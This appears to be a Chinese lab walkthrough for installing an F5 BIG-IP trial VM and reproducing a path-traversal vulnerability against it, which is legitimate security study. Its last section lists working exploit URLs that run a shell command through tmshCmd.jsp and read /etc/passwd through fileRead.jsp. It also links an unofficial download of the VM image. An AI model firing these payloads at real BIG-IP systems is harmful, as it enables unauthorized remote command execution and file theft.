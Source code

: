 ```yaml
---
description: 图是偷的，过程是自己的
---
```


# F5 big-ip从环境搭建到漏洞复现

### 1、 注册账号

去F5官网下载90天试用版本。 地址：[https://f5.com/zh/products/trials/product-trials](https://f5.com/zh/products/trials/product-trials)

打开网站后，选择BIG-IP云版本

![](../.gitbook/assets/bigip01.jpg)

 

点击后，按照页面中的指示开始注册账号并申请key

```text
1. 登录或注册
使用 F5 支持 ID 登录，并申请试用版密钥。
若无 F5 支持帐户，请单击下方链接进行创建。

2. 申请密钥
登录后，请选择 BIGIP 云版本及所需的许可数量。订单将通过您创建支持帐户时使用的电子邮件发送给您。

3. 下载软件
您可在等待密钥期间下载软件。只需选择虚拟机监控程序（见下文）开始下载即可。

4. 启动
请使用密钥解锁试用版，并开始在自己的环境中设置 BIG-IP 云版本。使用我们的其中一种云解决方案模板即可快速开始配置。
```

注册地址如下：[https://login.f5.com/resource/login.jsp?ctx=719748](https://login.f5.com/resource/login.jsp?ctx=719748)

若没有账号，点击页面中的`create one`即可开始注册

![](../.gitbook/assets/bigip02.jpg)

因为我已经注册了，所以下面的步骤就不显示了，总之第一步，会输入邮箱地址

![](../.gitbook/assets/bigip03.jpg)



之后在邮箱中会出现一个设置密码的链接

![](../.gitbook/assets/bigip04.jpg)

（鬼知道中间省略了多少个步骤）

按照提示申请完秘钥之后，会收到这样一封邮件：

![](../.gitbook/assets/bigip05.jpg)

### 2、 导入虚拟机

下载BIG-IP的.ova文件，这里因为在外面下载的太慢了，百度链接如下：  
14.1.2版本：  
链接：[https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw](https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw)   
提取码：rbtk

下载成功后，导入到虚拟机，开机即可

开机后，会提示输入密码，前两次都是默认账号密码：root/default

![](../.gitbook/assets/bigip06.jpg)

之后修改密码，要求：必须包含大小写字母与数字，符号，长度不得小于8位，此处可设置Admin!@\#456

设置该虚拟机的网络，网卡任意模式即可 （原有好几块网卡，可以删除一些，最后只剩一张）

![](../.gitbook/assets/bigip07.jpg)

在/config目录下，输入config，设置IP地址，默认选择IPV4，然后连续按两次回车，等待命令行出现即可

![](../.gitbook/assets/bigip08.jpg)

设置好IP地址后，建议使用nmap等端口扫描工具扫一下，毕竟我的环境和小伙伴的环境BIGIP的运行端口都不一样

打开网站，用户名与密码不是默认的admin/admin（那是高版本的），而是刚设置的Admin!@\#456

### 3、 激活big-ip

此时网站处于未激活状态，可点击NEXT进行激活

![](../.gitbook/assets/bigip09.jpg)

输入申请到的邮箱里的registration key.点击Next

![](../.gitbook/assets/bigip10.jpg)

将1中的内容复制到2中新开的网页中并NEXT，最后将生成的内容粘贴到3中即可

![](../.gitbook/assets/bigip11.jpg)

![](../.gitbook/assets/bigip12.jpg)

重新登录，即可激活成功

### 4、 漏洞利用

```text
RCE:
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

文件读取：
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

效果图如下：

![](../.gitbook/assets/bigip13.jpg)



